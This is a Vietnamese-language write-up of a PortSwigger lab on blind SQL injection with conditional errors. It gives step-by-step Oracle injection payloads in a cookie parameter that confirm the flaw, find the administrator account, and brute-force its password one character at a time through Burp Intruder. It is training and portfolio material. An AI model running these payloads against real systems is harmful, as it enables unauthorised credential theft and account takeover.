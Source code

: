 # Write-up: Blind SQL injection with conditional errors

### Tổng quan
Ghi lại quá trình khai thác Blind SQLi sử dụng kĩ thuật kích hoạt lỗi trả về có điều kiện để lấy mật khẩu rồi đăng nhập dưới `administrator`.

### Mục tiêu
- Trích dữ liệu mật khẩu của tài khoản `administrator`.
- Đăng nhập vào hệ thống với tên `administrator`

### Công cụ sử dụng
- BurpSuite Community
- Firefox Browser

### Các bước thực hiện
1. **Thu thập thông tin (Recon)**

- Kiểm tra tham số `TrackingId` của header `Cookie` trong HTTP request được chặn trong BurpSuite
    ```
    TrackingId=CwehTxdaEjLPvUlO' 
    -> Xuất hiện lỗi Internal Server Error
    ```
    ```    
    TrackingId=CwehTxdaEjLPvUlO'' 
    -> Không xuất hiện lỗi
    ```
    - **Kết quả**: xác nhận có lỗi nhưng chưa biết có phải SQL không

- Kiểm tra xem lỗi có phải do SQL gây ra không?
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT '')||' 
    -> xuất hiện lỗi Internal Server Error do câu truy vấn sai
    ```
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT '' FROM dual)||' 
    -> Không xuất hiện lỗi
    ```
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT '' FROM not_real)||' 
    -> Xuất hiện lỗi Internal Server Error do bảng not_real không có trong db
    ```
    - **Kết quả**: Xác nhận lỗ hổng Blind SQLi và DB là Oracle
        ![lỗi](./images/error.png)
      
- Xác định tồn tại của bảng users 
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT '' FROM users where rownum = 1)||'
    ```
    - **Kết quả**: Không có lỗi Internal Server Error được trả về, xác nhận có bảng users
      ![users](./images/exist_users.png)
 

- Xác định tài khoản `administrator` tồn tại 
  - Xác định hành vi của web
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT case when (1=1) then to_char(1/0) else '' end FROM dual)||' 
    -> Xuất hiện lỗi Internal Server Error
    ```
  - Thay đổi giá trị 1=2 
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT case when (1=2) then to_char(1/0) else '' end FROM dual)||' 
    -> Không xuất hiện lỗi 
    ```
    - **Kết quả**: web có thực hiện truy vấn và trả về lỗi hoặc không khi điều kiện trong `WHEN` thay đổi.
  - Dựa vào hành vi trên thêm điều kiện `username = administrator`
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT case when (1=1) then to_char(1/0) else '' end FROM users where username='administrator')||' -> tra ve loi internal server error -> xac nhan ton tai user administrator
    ``` 
    - **Kết quả**: Xuất hiện lỗi, xác nhận tồn tài `administrator`
    ![admin](./images/exist_admin.png)

2. **Tạo payload**
- Tạo payload và gửi qua Burp Intruder để xác định độ dài mật khẩu, payload được set như ảnh minh họa
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT case when (length(password)=§1§) then to_char(1/0) else '' end FROM users where username='administrator')||'
    ```
    - **Kết quả**: Xuất hiện lỗi, xác nhận độ dài mật khẩu là 20 kí tự
    ![length](./images/length.png)

- Tạo payload và gửi qua Burp Intruder để xác định mật khẩu bằng bruteforce, payload được set như ảnh
    ```
    TrackingId=CwehTxdaEjLPvUlO'||(SELECT case when substr(password,§1§,1)='§m§' then to_char(1/0) else '' end FROM users where username='administrator')||'
    ```
    - **Kết quả**: xác  nhận mật khẩu `administrator`:`xi8fu15iotkap63y3ldt`

3. **Khai thác (Exploitation)**
- Đăng nhập tại `/login` với `administrator`:`xi8fu15iotkap63y3ldt`
- **Kết quả**: Đăng nhập thành công, hoàn thành lab
    ![login](./images/login_success.png)

### Bài học rút ra
- Thành thạo khai thác blind SQL injection dựa trên phản hồi lỗi có điều kiện.
- Nhận thức tầm quan trọng của kiểm tra đầu vào để ngăn chặn SQL injection.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: Blind SQL Injection

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng khai thác Blind SQL injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.